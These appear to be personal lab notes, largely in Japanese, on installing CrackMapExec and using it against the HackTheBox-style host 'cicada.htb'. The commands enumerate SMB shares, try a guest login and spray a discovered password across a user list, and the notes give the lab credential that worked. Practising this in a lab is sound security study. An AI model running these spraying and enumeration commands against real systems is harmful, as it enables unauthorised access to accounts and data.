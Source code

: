## Ready
```
sudo apt-get install -y libssl-dev libffi-dev python2-dev build-essential
git clone --recursive https://github.com/byt3bl33d3r/CrackMapExec
cd CrackMapExec
curl -sSL https://install.python-poetry.org | python3 -
export PATH="/home/kali/.local/bin:$PATH"
poetry --version
# Poetry の keyring 機能を無効にしてインストールを試みる
export PYTHON_KEYRING_BACKEND=keyring.backends.null.Keyring
poetry install
poetry run pip install termcolor
poetry run pip install python-libnmap
poetry run pip install xmltodict
poetry run pip install sqlalchemy
poetry run pip install terminaltables
poetry run crackmapexec

# This is Hit!!
poetry env remove python
poetry env use python3.11  # 3.11 がない場合は 3.10 か 3.9 に変更
poetry install
poetry run crackmapexec -h
```
## 調査確認
#### デフォルト
`poetry run crackmapexec smb cicada.htb --shares`
#### guest等のデフォルトで使用されている可能性のあるクレデンシャルの調査
`poetry run crackmapexec smb cicada.htb -u 'guest' -p '' --shares`
#### txtでリバースブルートフォース
`poetry run crackmapexec smb cicada.htb -u ../users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`
#### 取得したクレデンシャルで再度調査
`poetry run crackmapexec smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares`
#### Userの調査
`poetry run crackmapexec smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users`

